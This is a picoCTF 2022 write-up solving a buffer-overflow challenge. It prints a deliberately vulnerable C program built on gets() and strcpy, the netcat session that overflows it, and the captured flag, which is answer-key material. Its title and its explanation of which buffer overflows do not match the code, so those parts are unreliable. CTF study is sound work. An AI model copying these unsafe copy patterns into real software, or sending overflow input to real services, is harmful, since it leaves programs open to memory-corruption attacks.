

# basic-file-exploit - picoCTF 2022 - CMU Cybersecurity Competition
Binary Exploitation, 100 Points

## Description


 
## basic-file-exploit Solution

Let's observe the attached file [vuln.c](./vuln.c):
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

We need to trigger the signal ```SIGSEGV``` which is ```segmentation fault```, We can do it by overflow from ```buf1[100]``` with 101 characters, Let's do it:
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/basic_file_exploit]
└──╼ $ nc saturn.picoctf.net 55986
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{ov3rfl0ws_ar3nt_that_bad_ee2fd2b1}
```

And we get the flag ```picoCTF{ov3rfl0ws_ar3nt_that_bad_ee2fd2b1}```.